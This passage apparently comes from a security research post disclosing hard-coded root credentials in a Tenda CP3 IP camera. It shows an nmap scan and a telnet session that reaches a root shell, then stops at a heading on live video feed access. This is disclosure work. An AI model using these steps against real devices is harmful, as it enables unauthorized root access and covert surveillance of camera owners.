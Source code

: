 ```plaintext
setenv  - set environment variables
sf      - SPI flash sub-system
sleep   - delay execution for some time
tftpboot- boot image via network using TFTP protocol
upgrade - usage:upgrade, set imgname to load

version - print monitor version
U-Boot>
```

### Remote `root` Access

> Hard-coded, weak credentials,
> in Shenzen Tenda Technology IP Camera CP3 V11.10.00.2211041355 allows
> remote attackers to gain root access to the device via telnet

#### Details

An `nmap` scan reveals that `telnet` is running on the device and listening on port
23:

```plaintext
# nmap -Pn 192.168.1.86 -p 23
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 12:58 CEST
Nmap scan report for 192.168.1.86
Host is up (0.047s latency).

PORT      STATE  SERVICE         VERSION
23/tcp    open   telnet
```

The **hard-coded** password for user `root` can be easily retrieved as previously
explained in this blog post, and is now publicly available. It can be used to log
in:

```terminal
$ telnet 192.168.1.86 23
Trying 192.168.1.86...
Connected to 192.168.1.86.
Escape character is '^]'.
(none) login: root
Password:


BusyBox v1.26.2 (2021-09-07 16:47:55 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

[/app]# id
uid=0(root) gid=0(root) groups=0(root)
```

### Live Video Feed Access
